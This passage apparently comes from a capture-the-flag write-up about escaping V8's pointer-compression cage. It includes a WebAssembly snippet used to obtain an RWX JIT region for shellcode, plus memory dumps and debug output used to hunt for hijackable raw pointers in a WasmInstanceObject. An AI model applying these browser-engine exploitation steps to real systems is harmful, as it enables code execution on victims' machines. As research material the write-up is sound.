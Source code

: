 ## Attempt 2
Then I started analyzing the second idea. In Javascript, one can run webassembly code. In V8's implementation, it JIT-compiles the webassembly code and stores the code in a rwx region. So, overwriting the JIT code or the code pointer will grant us shellcode execution capability. This feature has been exploited for a few years. An detailed walkthrough on how it works can be found [here](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/). Basically, a JIT-ed Webassembly function can be created by using the following snippet:
~~~
var wasm_code2 = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod2 = new WebAssembly.Module(wasm_code2);
var wasm_instance2 = new WebAssembly.Instance(wasm_mod2);
var f = wasm_instance2.exports.main;
~~~
Overwriting the rwx region and invoke `f()` will execute the written shellcode.

In our case, the rwx region itself is outside the cage, so we cannot overwrite it directly. However, the pointer itself is still inside the cage. A `WASMInstance` looks like this in memory:
~~~
0x238b081d4324:	0x0800224908206439	0x0800224908002249
0x238b081d4334:	0x0000000008002249	0x0000238c81010000
0x238b081d4344:	0x0000000000010000	0x000055dff37429e0
0x238b081d4354:	0x000055dff38bbcd0	0x0000000000000000
0x238b081d4364:	0x0000000000000000	0x0000000000000000
0x238b081d4374:	0x000055dff38bbcf0	0x000055dff37429c0
0x238b081d4384:	0x00002dc419c9e000	0x000055dff374ede8
0x238b081d4394:	0x000055dff374ede0	0x000055dff374ee00
0x238b081d43a4:	0x000055dff374edf8	0x000055dff37429d0
0x238b081d43b4:	0x000055dff38bbd10	0x000055dff38bbd30
0x238b081d43c4:	0x000055dff38bbd50	0x000055dff3764f29
0x238b081d43d4:	0x000055dff38bb240	0x08084cad08084b51
~~~
And `0x00002dc419c9e000` points to the rwx region. So, does overwriting this value give us PC control? Maybe we can use this PC control to ROP? Unfortunately, the answer is no. After a few trials, I still couldn't let V8 to dereference this pointer. After following the trace, @adamd and I found out that the real pointer used for invoking the shellcode resides on ptmalloc heap, which is outside of the cage.

Now what?

## Attempt 3
Now the only option left is to find a raw 64bit pointer on JS heap and hope that hijacking it can give us access to outside of the cage. But almost all values inside the cage are compressed pointers, how do we find 64bit pointers?

Oh wait, what are those in `WASMInstance`? Those are all 64bit pointers, lol. Let's just pick a good one.
To understand what those values stand for, the best approach is to do a `%DebugPrint`:
~~~
DebugPrint: 0x238b081d4325: [WasmInstanceObject] in OldSpace
 - map: 0x238b08206439 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x238b08384bed <Object map = 0x238b08206c81>
 - elements: 0x238b08002249 <FixedArray[0]> [HOLEY_ELEMENTS]
 - module_object: 0x238b08084b51 <Module map = 0x238b082062d1>
 - exports_object: 0x238b08084cad <Object map = 0x238b08206e39>
 - native_context: 0x238b081c2c75 <NativeContext[266]>
 - memory_object: 0x238b081d430d <Memory map = 0x238b082066e1>
 - table 0: 0x238b08084c3d <Table map = 0x238b08206551>
 - imported_function_refs: 0x238b08002249 <FixedArray[0]>
 - indirect_function_table_refs: 0x238b08002249 <FixedArray[0]>
 - managed_native_allocations: 0x238b08084bf5 <Foreign>
 - managed object maps: 0x238b08002249 <FixedArray[0]>
~~~